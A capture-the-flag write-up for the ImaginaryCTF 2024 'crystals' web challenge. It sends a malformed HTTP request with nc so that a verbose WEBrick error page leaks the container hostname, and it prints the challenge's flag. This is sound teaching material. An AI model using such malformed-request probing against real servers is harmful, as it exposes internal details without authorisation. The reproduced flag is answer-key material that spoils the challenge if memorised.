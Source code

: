 After reading the source code of this web application a little bit, we have the following findings:

1. This web application is written in Ruby, with web application framework "[Sinatra](https://sinatrarb.com/)"
2. The only route in this web application is just `/`

Now, what's our objective in this challenge? Where's the flag?

In the `docker-compose.yml` file, we can see that the flag is in the Docker container's **hostname**!

```yaml
version: '3.3'
services:
  deployment:
    hostname: $FLAG
    build: .
    ports:
      - 10001:80
```

Huh? So, we'll need to **somehow leak the hostname** in this web application?

Based on my experience, a web application is possible to have **information exposure via error messages**.

For instance, we can send a malformed request to trigger an error, then maybe the server respond us with a very verbose error message.

## Exploitation

**To do so, we can send a malformed request, such as this request:**
```http
GET /< HTTP/1.1
Host: crystals.chal.imaginaryctf.org
```

The server will try to parse the path. However, since this path `/<` is not a valid path, it should causes an error.

```shell
┌[siunam♥Mercury]-(~/ctf/ImaginaryCTF-2024/Web/crystals)-[2024.07.22|15:15:59(HKT)]
└> nc crystals.chal.imaginaryctf.org 80                                                             
GET /< HTTP/1.1
Host: crystals.chal.imaginaryctf.org

HTTP/1.1 400 Bad Request
Server: nginx
Date: Mon, 22 Jul 2024 07:16:06 GMT
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 316
Connection: keep-alive

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0//EN">
<HTML>
  <HEAD><TITLE>Bad Request</TITLE></HEAD>
  <BODY>
    <H1>Bad Request</H1>
    bad URI `/&lt;'.
    <HR>
    <ADDRESS>
     WEBrick/1.8.1 (Ruby/3.0.2/2021-07-07) at
     ictf{seems_like_you_broke_it_pretty_bad_76a87694}:4567
    </ADDRESS>
  </BODY>
</HTML>
```
